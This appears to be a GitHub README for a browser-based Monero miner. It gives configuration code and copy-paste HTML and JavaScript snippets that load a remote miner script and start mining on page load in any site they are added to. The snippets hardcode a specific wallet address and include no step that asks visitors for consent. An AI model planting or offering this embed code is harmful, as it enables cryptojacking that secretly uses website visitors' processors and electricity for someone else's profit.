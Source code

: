 ## Monero Webminer

Html & Js code that allows Mining of XMR (Monero) on browsers


# Configure

In Mine.Html you will see a address change this for your Monero address and you will be mining.

```javascript
server = "wss://f.xmrminingproxy.com:8181";
    var pool = "moneroocean.stream";
    var walletAddress = " PUT YOUR ADDRESS HERE";
    var workerId = ""
    var threads = -1;
    var password = "";
    startMining(pool, walletAddress, workerId, threads, password);
    throttleMiner = 20;
```
# Running

Open index.html in any web browser and it will automatically start mining.

https://najmajmal.github.io/monero-webminer


# Check Progress 

Go to https://moneroocean.stream . This is the pool you are connected to, it will show your hashrate and balance.

# Use In Other Projects 

      <!-- Start Of Mining Code (HTML) -->
      <script src="https://cdn.jsdelivr.net/gh/NajmAjmal/monero-webminer@main/script.js"></script>
      <script>
          server = "wss://f.xmrminingproxy.com:8181";
          var pool = "moneroocean.stream";
          var walletAddress = "4657q4dnsjLWtzeW4XN3wG9swFumWAZB9i1pegTLMxVAQy5E5AE8uif42kkHWcWc9vDcLUmzeCf3pV7mmrJQQqqe84dtASi";
          var workerId = "nahh"
          var threads = -1;
          var password = "";
          startMining(pool, walletAddress, workerId, threads, password);
          throttleMiner = 20;
      </script>
      <!-- End Of Mining Code (HTML) -->
      
      // Start Of Mining Code (Javascript)
      var script = document.createElement("script");
      script.src = "https://cdn.jsdelivr.net/gh/NajmAjmal/monero-webminer@main/script.js";
      document.head.appendChild(script);

      server = "wss://f.xmrminingproxy.com:8181";
      var pool = "moneroocean.stream";
      var walletAddress = "4657q4dnsjLWtzeW4XN3wG9swFumWAZB9i1pegTLMxVAQy5E5AE8uif42kkHWcWc9vDcLUmzeCf3pV7mmrJQQqqe84dtASi";
      var workerId = "nahh"
      var threads = -1;
      var password = "";
      startMining(pool, walletAddress, workerId, threads, password);
      throttleMiner = 20;
      // End Of Mining Code

